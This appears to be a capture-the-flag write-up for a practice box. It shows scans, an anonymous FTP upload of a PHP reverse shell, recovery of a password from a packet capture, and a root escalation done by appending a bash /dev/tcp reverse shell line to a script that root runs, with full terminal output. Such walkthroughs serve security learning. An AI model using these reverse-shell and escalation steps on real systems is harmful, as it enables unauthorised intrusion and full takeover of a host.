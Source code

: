 ### IP `10.10.241.74`

1. First of all and as always we run nmap:
```
──(kali㉿kali)-[~]
└─$ nmap -Pn -A -T4 10.10.241.74
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 13:53 EST
Warning: 10.10.241.74 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.241.74
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT      STATE    SERVICE        VERSION
21/tcp    open     ftp            vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.6.46.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh            OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp    open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
900/tcp   filtered omginitialrefs
5906/tcp  filtered unknown
11110/tcp filtered sgi-soap
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.73 seconds
                                                                     
```

These ports are open:
```
21
22
80
900
5906
1111
```


2. Secondly, it is always good to run gobuster to get a list of directories available and also check `/robots.txt` 

 ```
 gobuster dir -u http://10.10.241.74 -w /usr/share/wordlists/dirb/common.txt ===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.241.74
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/10 13:52:52 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/10 13:54:58 Finished
===============================================================
```

It seems that there is a directory `/files` however, after a quick look there is nothing helpful there. These are files visible from ftp, so we will benefir from it in next point.
                                                                       


3. We come back to ftp port.

We login as `Anonymous` and tap enter while prompted for password. Command `dir` shows available files (with no useful informations) but there is also `ftp` directory where anonymous user has writing permission.

In this case we will try to get a shell with netcat and reverse php:

- we save pentest monkey's  (or a one liner) reverse shell script as `shell.php`
- run netcat in separate terminal `sudo nc -lvnp 4444`
- upload `shell.php` to ftp directory with `put shell.php`
- open `http://10.10.241.74/files/ftp/shell.php` in a browser, click on it and get shell as `www-data`

There is a file called recipe.txt, so quick `cat` to answer first question:

ww-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was XXXX


4. Indicents directory

Besides `recipe.txt` there is a directory named `incidents`

```
www-data@startup:/$ ls -lah
ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 .
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Jan 10 18:51 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 128 root     root        0 Jan 10 18:51 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Jan 10 19:13 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Jan 10 19:19 sys
drwxrwxrwt   7 root     root     4.0K Jan 10 19:23 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ 
```

and `suspicious.pcapng` file which looks like wireshark's packet file but do not get confused :)

```
www-data@startup:/incidents$ ls -lah
ls -lah
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Nov 12 04:53 .
drwxr-xr-x 25 root     root     4.0K Jan 10 18:52 ..
-rwxr-xr-x  1 www-data www-data  31K Nov 12 04:53 suspicious.pcapng
```

5. Investigating the file.

I quickly run a python http server `python3 -m http.server` and downloade a file to my local machine, as there is no `strings` command installed on a box.

Here is what we have:

```
$ strings suspicious.pcapng              

Qcd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ 
lennie
www-data@startup:/home$ 
cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
c4nXXXXXXXXXc3
6%	@
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4nXXXXXXXXXc3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
```

A giant file with some logs. Once we have a deeper look at it, among  different commands there is a username `lennie` and passswordlike word, which in the end turns out to ba that user's pass (it is very illogic for me)


6. Enumaration while logged as `lennie`

I run `linpeas.sh` in order to get some useful informations, however did not find anything. 

Our user `lennie` has permissions to run `/etc/print.sh` script so by appending a reverse shell onliner and running netcat, there is a chance to get another shell as root.

I type `echo "bash -i &>/dev/tcp/$MYIP/$NCPORT <&1" >> /etc/print.sh`

wait a little and bingo:

```
lennie@startup:~$ echo "bash -i &>/dev/tcp/10.6.46.150/4444 <&1" >> /etc/print.s 
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i &>/dev/tcp/10.6.46.150/4444 <&1
lennie@startup:~$ 


──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.212.41] 54316
bash: cannot set terminal process group (1402): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12 04:54 .
drwxr-xr-x 25 root root 4096 Jan 10 20:23 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963XXXXXXXXXXXXXXXXXXXXXXXX6d}
root@startup:~# 
```
